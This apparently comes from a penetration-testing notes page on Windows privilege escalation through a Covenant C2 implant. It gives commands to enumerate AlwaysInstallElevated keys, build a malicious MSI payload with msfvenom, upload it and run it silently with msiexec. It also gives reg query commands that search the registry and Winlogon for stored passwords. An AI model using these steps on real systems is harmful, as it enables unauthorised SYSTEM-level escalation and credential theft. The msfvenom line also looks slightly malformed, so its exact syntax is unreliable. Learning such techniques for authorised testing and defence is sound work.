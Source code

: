 ##### covenant

Make sure that you have a medium-integrity grunt. 

Enumerate with `PowerUp.ps1` or `SharpUp audit`. Look for 1's on `HKLM` and `HKCU` under `AlwaysInstallElevated Registry Keys`:

Output on SharpUp:

```
=== AlwaysInstallElevated Registry Keys ===

	HKLM:	1
	HKCU: 	1
	
```

Output on PowerUp.ps1:

```
[*] Checking for AlwaysInstallElevated registry key...


AbuseFunction : Write-UserAddMSI

```

On Kali:

```bash
msfvenom -p windows/exec CMD="blahblahblah" -i msi -o file.msi
```

replace "blahblahblah" with shellcode

On Covenant:

```
upload /filepath:"C:\Users\Public\file.msi"

* select file *

ChangeDirectory C:\Users\Public
ls
```

```
shell msiexec /quiet /qn /i file.msi
```

### passwords in registry

---

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
